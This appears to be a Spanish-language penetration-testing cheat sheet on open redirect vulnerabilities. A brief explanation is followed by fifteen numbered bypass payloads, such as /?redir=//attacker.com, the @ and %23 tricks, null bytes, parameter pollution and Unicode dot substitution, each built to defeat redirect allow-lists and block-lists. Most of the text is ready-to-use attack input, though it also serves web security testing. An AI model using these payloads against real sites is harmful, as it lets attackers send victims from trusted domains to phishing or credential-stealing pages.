 # Open Redirect

Las vulnerabilidades de redirección abierta surgen cuando una aplicación incorpora datos controlables por el usuario en el objetivo de una redirección de forma no segura. Un atacante puede construir una URL dentro de la aplicación que provoque una redirección a un dominio externo arbitrario

A veces se puede encontrar en las páginas de inicio de sesión/registro/cierre de sesión, como también comprobando el código fuente de javascript

# Explotando

1 - Prueba a cambiar el dominio

    /?redir=attacker.com
    
2 - Uso de un dominio o una palabra clave incluidos en la white list

    /?redir=target.com.attacker.com
    
3 - Usando // para bypass la palabra http de la black list

    /?redir=//attacker.com
    
4 - Usando https: para bypass // de la black list

    /?redir=https:atacker.com
    
5 - Using \\ para bypass // de la black list

    /?redir=\\attacker.com
    
6 - Using \/\/ para bypass // de la black list

    /?redir=\/\/attacker.com/
    /?redir=/\/attacker.com/
    
7 - Usando %E3%80%82 para bypass el . de la black list

    /?redir=attacker%E3%80%82com
    
8 - Usando un null byte %00 para bypass el filtro de la black list

    /?redir=//attacker%00.com
    
9 - Usando parameter pollution

    /?next=host.com&next=attacker.com
    
10 - Usando @ o %40 (el navegador redirigirá a cualquier cosa después del @)

    /?redir=host.com@attacker.com
    /?redir=host.com%40attacker.com
    
11 - Usando el carácter ? (el navegador lo traducirá a /?)

    /?redir=host.com?attacker.com
    
12 - Omita el filtro si solo verifica el nombre de dominio usando %23

    /?redir=host.com%23attacker.com
    
13 - Host/Split Unicode Normalization

14 - Usando el símbolo ° para bypass

    /?redir=host.com/°attacker.com
    
15 - Omita el filtro si solo le permite controlar la ruta usando un null byte %0d o %0a

    /?redir=/%0d/attacker.com
    /?redir=/%0a/attacker.com
